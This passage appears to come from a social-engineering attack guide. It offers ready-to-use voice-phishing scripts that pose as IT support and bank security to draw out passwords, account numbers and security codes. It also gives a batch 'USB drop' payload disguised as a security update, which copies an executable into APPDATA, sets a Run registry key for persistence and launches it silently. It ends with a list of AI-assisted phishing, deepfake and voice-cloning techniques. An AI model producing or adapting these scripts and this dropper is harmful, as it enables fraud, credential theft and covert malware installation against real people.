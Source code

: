 ### Vishing (Voice Phishing) Scripts

#### IT Support Script
```
"Hello, is this [TARGET_NAME]? This is [YOUR_NAME] from IT Support. 
We've detected unusual activity on your network account that could indicate a security breach. 
We need to verify your account immediately to prevent any data loss.

For verification, I need to confirm your current login credentials. 
What username do you use to access company systems?
And to verify this is really you, can you confirm your current password?"
```

#### Banking Script
```
"Hello, this is [YOUR_NAME] calling from the Security Department at [BANK_NAME]. 
We've detected a suspicious transaction on your account for $1,247.83 that was just processed. 
Did you authorize this transaction?

I'm going to immediately freeze your account to prevent additional unauthorized charges. 
However, I need to verify your identity first by confirming your account number and security code."
```

### USB Drop Attack Payload
```batch
@echo off
title Critical Security Update
echo Installing security patches...

REM Copy payload to system
copy payload.exe %APPDATA%\WindowsUpdate.exe

REM Create persistence
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "SecurityUpdate" /t REG_SZ /d "%APPDATA%\WindowsUpdate.exe"

REM Execute payload silently
start /min %APPDATA%\WindowsUpdate.exe

echo Update completed successfully!
pause
exit
```

---

## Latest Tools and Techniques (2024 Updates)

### AI-Powered Social Engineering
- **ChatGPT and AI-generated content** for creating convincing phishing emails
- **Deepfake technology** for video/audio impersonation
- **AI voice cloning** for advanced vishing attacks
